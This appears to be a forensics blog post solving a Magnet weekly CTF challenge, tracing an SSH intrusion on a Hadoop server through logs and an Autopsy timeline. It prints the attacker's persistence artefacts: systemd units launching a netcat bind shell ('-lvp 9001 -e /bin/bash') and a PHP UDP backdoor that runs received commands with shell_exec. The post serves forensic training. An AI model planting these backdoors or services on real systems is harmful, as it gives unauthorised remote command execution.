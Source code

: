 ```yaml
---
layout: single
title: "Magnet CTF Week 8 - Persistence in plain sight"
date: '2020-12-01T01:00:00+09:00'
author: "Joshua I. James"
tags:
  - infosec
  - dfir
  - CTF
  - Magnet
modified_time: ""
---
```


Magnet Forensics is running a *weekly* forensic CTF. More information can be found on their [blog](https://www.magnetforensics.com/blog/magnet-weekly-ctf-challenge/). It is a fun way to practice, so let's get to it!

### CTF Posts

[Week 1](https://dfir.science/2020/10/Magnet-CTF-Week-1-Timestamps-of-doom.html) | [Week 2](https://dfir.science/2020/10/Magnet-CTF-Week-2-URLs-in-Pictures-in-Pictures.html) | [Week 3](https://dfir.science/2020/10/Magnet-CTF-Week-3-Failed-connections.html) | [Week 4](https://dfir.science/2020/11/Magnet-CTF-Week-4-GUIDSWAP-and-drop.html) | [Week 5](https://dfir.science/2020/11/Magnet-CTF-Week-5-HDFS.html) | [Week 6](https://dfir.science/2020/11/Magnet-CTF-Week-6-Riddle-ELF.html) | [Week 7](https://dfir.science/2020/11/Magnet-CTF-Week-7-Hadoop-Nodes.html)

### Getting Started

Download the images from [Archive.org](https://archive.org/details/Case2-HDFS).

Week 8 question is in two parts. Answering the first question releases the other questions.

> Part One: What package(s) were installed by the threat actor? Select the most correct answer!

For the last three weeks, we have been looking at - what we thought - was an average user setting up Hadoop. But right under our nose was a sneaky threat actor. For this question, there are two things we need to do:

* Differentiate the threat actor from the normal user
* Identify packages the threat actor installed

In a Linux system, I always run to /var/logs/ first. There are two logs I'm interested in: /var/log/apt/term.log and /var/log/auth.log. Auth shows login events. Maybe there is something suspicious there. apt/term shows the package manager install information - including the command.

Looking through the auth.log, we can see around Oct 7 at 00:40; someone is trying to brute force SSH logins from 192.168.2.129. This isn't uncommon on Linux systems connected to the Internet, but 192.168.x.x is a local IP - whoops!

```bash
Oct  7 00:42:44 master sshd[2055]: Failed password for root from 
192.168.2.129 port 56194 ssh2
Oct  7 00:42:44 master sshd[2055]: Received disconnect from 
192.168.2.129 port 56194:11: Bye Bye [preauth]
Oct  7 00:42:44 master sshd[2055]: Disconnected from 
192.168.2.129 port 56194 [preauth]
Oct  7 00:42:44 master sshd[2055]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=
192.168.2.129  user=root
Oct  7 00:42:44 master sshd[2105]: Accepted password for hadoop from 
192.168.2.129 port 56246 ssh2
Oct  7 00:42:44 master sshd[2105]: pam_unix(sshd:session): session opened for user hadoop by (uid=0)
Oct  7 00:42:44 master systemd-logind[871]: New session 5 of user hadoop.
Oct  7 00:42:44 master sshd[2075]: Failed password for invalid user magnos from 
192.168.2.129 port 56204 ssh2
Oct  7 00:42:44 master sshd[2075]: Received disconnect from 
192.168.2.129 port 56204:11: Bye Bye [preauth]
Oct  7 00:42:44 master sshd[2075]: Disconnected from 
192.168.2.129 port 56204 [preauth]
```

Even worse, ```sshd[2105]``` was a successful login. If we look a bit later, we can see the following:

```bash
Oct  7 01:23:48 master sshd[2410]: Accepted password for hadoop from 
192.168.2.129 port 56406 ssh2
Oct  7 01:23:48 master sshd[2410]: pam_unix(sshd:session): session opened for user hadoop by (uid=0)
Oct  7 01:23:48 master systemd-logind[871]: New session 8 of user hadoop.
<!--snip-->
Oct  7 01:48:20 master sshd[2440]: Received disconnect from 
192.168.2.129 port 56406:11: disconnected by user
Oct  7 01:48:20 master sshd[2440]: Disconnected from 
192.168.2.129 port 56406
Oct  7 01:48:20 master sshd[2410]: pam_unix(sshd:session): session closed for user hadoop
Oct  7 01:48:20 master systemd-logind[871]: Removed session 8.
```

Now we have a time-frame for suspect activities - Oct 7 from 01:23:48 to 01:48:20 (local time). Twenty-five minutes on SSH is enough time to get up to some badness.

With our time-span in mind, let's jump over to the apt logs. Looking at /var/log/apt/history.log we have one package installed in the expected time-frame.

```bash
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.
<!--snip-->
End-Date: 2019-10-07  01:30:41
```

Trying "php", and **BING!** Success.

> Part Two: Why? (was the package installed) - options below:
* hosting a database
* serving a webpage
* to run a php webshell
* create a fake systemd service

Our first multiple-choice question! There are interesting because each option is essentially a hypothesis.

What we are interested in is what happened around the time the suspect was logged in? For that, I always love *timeline analysis*.

I decided to load the case up in Autopsy, which has a useful timeline tool. Timestamps in log files are based on the local clock setting at the time the log was written. However, I usually make Autopsy display UTC since I'm unsure what timezone this system was in.

I can calculate the offset since I know that PHP was installed on the 7th at 01:30. PHP7.0 was installed on Oct 6 at 22:30 UTC. That means that the time zone for the system must be UTC+3. When looking at the file-system meta-data in Autopsy, we are especially interested in Oct 6 22:23 to 22:49.

I'm also (initially) going to be interested in files created around that time. Modified will also be important, but I'll start with created to see what pops. Starting from Oct 6 at 01:30, we see PHP being installed with apt. Almost 60 seconds later, a systemd file was created named "cluster.service". Installing PHP does not install a cluster, so I'll mark that down as weird.

![Timeline view in Autopsy](/assets/images/posts/2020-Autopsy-timeline-mwctf8.jpg)

If we explore the timeline from 22:30 to 22:39 only a few files are created, but they are nasty. At 22:34 we have some instances of netcat (nc) being installed. 22:37 netcat is successfully created as /usr/bin/master. At 22:38 we have another cluster.service created in systemd, this time executing netcat (as master).

```bash
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/master -lvp 9001 -e /bin/bash

[Install]
WantedBy=multi-user.target
```

We also have .viminfo file created with a list of suspects, haha! This file does include evidence many file edits, including /etc/sytemd/system/cluster.service.

```bash
    ###         4. Mariam Khader.                                               ### 
"3  LINE    0
    ###         3. Israa Alshamari,                                             ###
"4  LINE    0
    ###         2. Ghazi Al-Naymat,                                             ### 
"5  LINE    0
    ###         1. Ali Hadi,                                                    ###
"6  LINE    0
    ###     Team Members from PSUT:
```

Going back a bit, I checked all times around when the suspect could have been in the system. Looking at 22:28 we see an /etc/network/interfaces~ file created. Also a bit suspicious. Taking a look, we see:

```bash
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

These contents are also found in systemd and ssl/certs. The suspect is trying to get persistence. Netcat was interesting, but it didn't quite answer the question of why the suspect installed PHP. Execstart is trying to execute "cluster.php". Let's take a look:

```bash
<?php
error_reporting(0);
$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;
        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
else {  exit;   }
```

Here is a PHP script setting up a socket on port 17001 - listening for a connection. PHP will use shell_exec to run the command locally and send the output back through the socket based on the commands received. In other words, run local commands from a remote system. Netcat does the same thing.

So, why was PHP installed? Honestly, I thought the closest right answer was to "run a PHP webshell," but that was incorrect. The next best answer was to "create a fake systemd service". **BING!** Success.

I saw no evidence of a database or a web page. To make sure, I checked the php.ini configs and whether /var/www existed (it didn't).

### Lessons learned

For most of the CTF, I've been using command-line tools or new-to-me tools that I wanted to play with. This week, I went back to Autopsy and visualized timelines. I (re)learned that a good timeline visualization with a supported suspect time range could save a lot of time. In this case, I was able to get a good time-range with auth.log. Zooming the timeline to that range pretty much tells the whole story.